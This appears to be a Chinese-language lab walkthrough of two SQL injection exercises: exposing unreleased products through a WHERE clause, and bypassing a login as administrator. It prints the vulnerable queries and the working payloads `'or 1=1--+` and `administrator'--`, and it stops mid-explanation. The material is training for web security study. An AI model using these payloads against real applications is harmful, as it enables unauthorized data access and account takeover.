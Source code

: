 **WHERE子句中的SQL注入漏洞允许检索隐藏数据**

后端语句

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

要解决实验室问题，请执行SQL注入攻击，导致应用程序显示一个或多个未发布的产品

```
filter?category=Accessories'or 1=1--+
```

对`category`参数，构造闭合，绕过`released`参数的限制

```
SELECT * FROM products WHERE category = 'Accessories'or 1=1--+' AND released = 1
```

![image-20250430180301563](./img/image-20250430180301563.png)

### 允许绕过登录的SQL注入漏洞

> 本实验包含登录函数中的SQL注入漏洞
>
> 要解决实验室问题，请执行SQL注入攻击，以管理员用户身份登录到应用程序

登录后台的 SQL 逻辑

```
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

在这种情况下，攻击者可以以任何用户身份登录，而无需密码。他们可以使用 SQL 注释序列来执行此作 `--` 从查询的 `WHERE` 子句中删除密码检查。例如，提交用户名 `administrator'--` 和任意密码将导致以下查询：
